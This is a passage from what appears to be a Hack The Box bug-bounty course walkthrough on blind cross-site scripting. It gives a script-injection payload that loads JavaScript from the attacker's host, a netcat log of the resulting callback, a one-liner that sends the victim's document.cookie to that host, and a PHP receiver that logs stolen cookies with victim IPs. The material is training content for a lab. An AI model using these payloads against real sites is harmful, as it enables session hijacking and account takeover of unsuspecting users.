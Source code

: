Code: javascript

```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

![[HTB Solutions/CBBH/z. images/b175c2574e4a5fe33f2678c94fca4a3a_MD5.jpg]]

After clicking on the "Register" button, students will notice that the `nc` listener received a request for the "script.js" file:

```javascript
Ncat: Connection from 10.129.122.106.
Ncat: Connection from 10.129.122.106:32892.

GET /script.js HTTP/1.1
Host: 10.10.14.55:8080
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Before continuing, students need to make a directory under `/tmp/` to store the files that will be used hereafter.

Students now need to edit the "script.js" (which should be in the directory created in the `/tmp/` directory) file and have its contents to be JavaScript code that will grab the session cookie and send it to Pwnbox/`PWNIP`, such as the following one used in the module's section:

Code: javascript

```javascript
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;
```

In addition to "script.js", students need to save the PHP script "index.php" provided in the module's section which will split multiple cookies with a new line and write them to a file in case they are more than one:

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
